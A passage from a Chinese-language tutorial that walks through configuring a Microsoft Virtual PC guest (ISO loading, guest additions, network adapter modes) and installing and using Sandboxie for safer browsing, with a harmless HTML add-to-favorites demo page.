



之后我们载入 ISO 系统镜像文件，点击“光盘”选择“载入 ISO 镜像”，选择 ISO 镜像文件。在这里我是使用雨木林风封装的 XP SP3 系统，694M，不大不小，如图11。



图11


图12



图13

点击“打开”之后，我们在“操作”选项卡中选择“复位”，待虚拟机自动重新载入 ISO 系统镜像，来到了安装系统界面。要我们注意的是，在这里我们不要急于去选择“安装 Ghost XP SP3 到 C 盘”，因为虚拟机所带的硬盘并没有分区（如图12）。在这里我们首先选择“运行一键将硬盘分为四个区”，然后再选择“安装 Ghost XP SP3 到 C 盘”，这样就开始自动进行安装了，如图13。

安装完之后我们还不能急于使用，此时我们点击我们的虚拟机时会发现鼠标跑到虚拟机里面去了，要把鼠标弄出来要按 Alt+Enter，是不是很麻烦呢？这个时候我们只要安装一个附加模块就可以了。我们点击“操作”选项卡，选择“安装或者更新虚拟机附加程序”。小A：点击之后怎么没有反应啊？？不要着急，此时我们进入虚拟机中的“我的电脑”，在“可移动存储设备”中找到“VMADDITIONS13.820”，打开并一路点“下一步”就可以了。安装完之后它就会提示你重启虚拟机，重启之后我们就可以随意把物理机的文件拖动到虚拟机中了。

我们正在玩虚拟机的时候发现该虚拟机无法连接网络，而物理机可以，难道每次都要从物理机下载然后拉进虚拟机里面去么？这也太麻烦了吧。这个时候我们只需要设置下虚拟机的“网络适配器”就可以了。我们在 PC 控制台中选择我们所需要设置的虚拟机，并点击“设置”，然后切换到“网络”选项卡。我们在适配器1中可以看到有五个选项，分别是未连接、仅本地、802.11 n/g/b wireless、sis191 ethernet controller、bluetooth PAN Network adapter、共享网络（NAT），如图14所示。如果我们用的是拨号网络或者是在局域网中，只需选择“共享网络（NAT）”就可以了。下面的表格是我从百度上找到的，提供给大家参考设置。

表描述了显示在下拉列表中的适配器选项：

| 适配器选项 | 说明 |
|---|---|
| 未连接 | 使用此选项可使网络在虚拟机中不可用。当物理计算机不在网络上，或通过虚拟机不能访问 Internet 时，请选择此选项。如果虚拟机软件检查网络域控制器，此选项可以防止可能的延迟。 |
| 仅本地 | 此选项仅提供虚拟机之间的网络支持。因此，虚拟机不具有在主机操作系统上对任何网络资源的访问权限。 |
| 共享的网络（NAT） | 您可以将第一个虚拟机网络卡分配给共享网络（NAT）。使用此选项，虚拟机连接到虚拟 PC 创建的专用网络。该网络包括虚拟 DHCP 服务器和虚拟网络地址转换服务器。虚拟机可以访问大多数主机操作系统可以访问的基于 TCP/IP 的资源。有关共享网络的详细信息，请参阅本文“Manage shared networking for virtual machines”一节。 |
| 在物理计算机上的网络适配器 | 使用此选项，虚拟机直接连接到主机操作系统当前所选的网络连接。虚拟机显示和行为类似于同一网络上的单独物理计算机。网络的配置决定虚拟机的网络配置。例如，网络如何分配 IP 地址给虚拟机：如果网络使用 DHCP 服务器，IP 地址将动态分配；如果网络使用静态 IP 地址，您必须手动配置虚拟机使用静态 IP 地址。请使用虚拟机操作系统文档中指定的方法。 |
| Microsoft 环回适配器 | 如果您想要在一台物理计算机上创建更复杂的网络环境，并要安装多个物理网络卡，可以在主机操作系统上安装 Microsoft 环回适配器的多个实例。有关详细信息，请参阅“Extend networking capabilities for virtual machines”这篇文章的相关部分。 |

就这样我们就完成了整个虚拟机的安装了，其他的功能就留给各位读者慢慢探索了。



#### 1.2 沙盘搭建及使用

在浏览网页或者下载软件的过程中，难免会发生一些意外，如被木马入侵导致一些重要的信息（银行卡密码、QQ 密码等）丢失，后果是比较严重的。目前木马横行，单单有安全防御软件是远远不够的。说到这里读者们就会想到上节我所讲到的 Microsoft Virtual PC。对，就是这个，还有没有更轻巧的防御工具呢？这个答案是肯定有的。

##### 1.2.1 沙盘简单介绍

沙盘，英文名：Sandbox，也称为沙箱，HIPS 的一种。也可以把它看作一个“密封”的容器。当你在沙盘中运行程序，该程序所产生的变化可以随时删除，在浏览网页时可以用来保护。这个功能也被一些安全厂商所出品的浏览器使用，例如：360 安全浏览器，如图1所示。当沙盘或 360 安全浏览器退出的时候，它会自动清除上网的痕迹，且对真实的系统毫无影响。沙盘与虚拟机也有类似之处，也有不同之处。因为虚拟机是在真实的系统中模拟一个完全虚拟的操作系统，因此占用系统空间比较大；而沙盘并不需要模拟整个系统，它只是根据自己的需求来模拟一个环境，让指定的程序运行在其中。说白了就是：虚拟机是建一个系统，用完了不管怎么配置都保留在虚拟机当中；沙盘是不管怎么弄，把它一关一开，它就变成老样子。引用官方的一句话：电脑就像一张纸，程序的运行与改动，就像将字写在纸上，而沙盘就相当于在纸上放了一块玻璃。



图1

玻璃，程序的运行与改动就像写在了这一块玻璃上面。当我们拿走这一块玻璃的时候，纸还是一点也没有改变，原理如图2。

> 小知识：HIPS（Host-based Intrusion Prevention System），基于主机的入侵防御系统。HIPS 是一种能监控你电脑中文件的运行和文件调用了其他文件以及文件对注册表的修改，并向你报告请求允许的软件。

##### 1.2.2 沙盘安装

首先我们去官方下载沙盘。官方在安装的过程中提供了中文选项，所以就免去了汉化的环节了，官方下载地址如下：

- **32-bit**  
  http://www.sandboxie.com/attic/SandboxieInstall32-356.exe
- **64-bit**  
  http://www.sandboxie.com/attic/SandboxieInstall64-356.exe
- **All**  
  http://www.sandboxie.com/SandboxieInstall.exe



图2



图3



图4

下载好了之后，我们就开始安装吧。我们打开安装程序“SandboxieInstall.exe”，如图3所示，我们选择“Chinese（Simplified）”就是简体中文版，然后点击 OK。安装过程非常简单，只需要一直点下一步（Next）就可以完成安装了，如图4。

安装主程序之后还需要安装驱动，我们同样点击下一步，如图5。

##### 1.2.3 沙盘使用

在安装完沙盘之后，我来简单介绍下沙盘的使用方法，其他还需要读者们挖掘哦！

###### 使用沙盘安全浏览网页

我们打开沙盘，如图6所示，然后选择“DefaultBox”->“在沙盘中运行”->“运行网页浏览器”，它就会自动弹出默认的浏览器。我本机电脑用的是 Google Chrome，所以在这里它就弹出了 Google Chrome，如图7。你仔细观察一下下方的任务栏，那个标题前是不是多了个“#”号呢？如图8。这就对了，当标题栏前多了个“#”号说明该程序正常运行在沙盘中，它的任何改变都不会影响到真实的系统。

为了让读者们理解透彻，我们就来测试下吧。让我们访问一个网页的时候，会在电脑中留下什么痕迹呢？对，读者们第一个肯定会想到历史记录。除了这个之外，还有什么呢？图片、cookie 等一堆数据，其中 cookie 是最为敏感的数据之一。关于 cookie 之后的文章我们会讲到的，在这里就一笔带过，下面简单编写了一个网页演示。

> **小知识**  
> 什么叫 cookie？  
> Cookie 是 Web 服务器存在用户硬盘上的一段文本信息。它允许一个 Web 站点在用户的电脑上保存信息并且随后再取回它。信息的片段以“名/值”对（name-value pairs）的形式储存。举例来说，一个 Web 站点可能会为每一个访问者产生一个唯一的 ID，然后以 Cookie 文件的形式保存，在每个用户的机器上。简单来说 Cookie 就是用来记录你电脑和网站相连的一种数据。

代码如下：

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>test1</title>
</head>

<body>
右击鼠标查看代码

<p>代码一：<a onclick="window.external.AddFavorite(location.href, document.title);" title="网页特效" style="cursor:hand">收藏本页</a></p>
<p><br>

代码二：<a href="javascript:window.external.AddFavorite('http://www.hash.hk', '网站收藏')">收藏本站</a>
</p>
<p>
<script language="javascript">
function addFavorite(url,title){
    var fav_url = url,
        fav_title = title;
    if (document.all && window.external){
        window.external.AddFavorite(fav_url,fav_title);
    } else if (window.sidebar){
        window.sidebar.addPanel(fav_title,fav_url,"");
    } else {
        alert("浏览器不支持，请手动加入收藏夹");
    }
}
</script>
代码三：<a href="javascript:addFavorite('http://www.hash.hk','网站标题');">添加收藏</a>
</p>
</body>
</html>
```





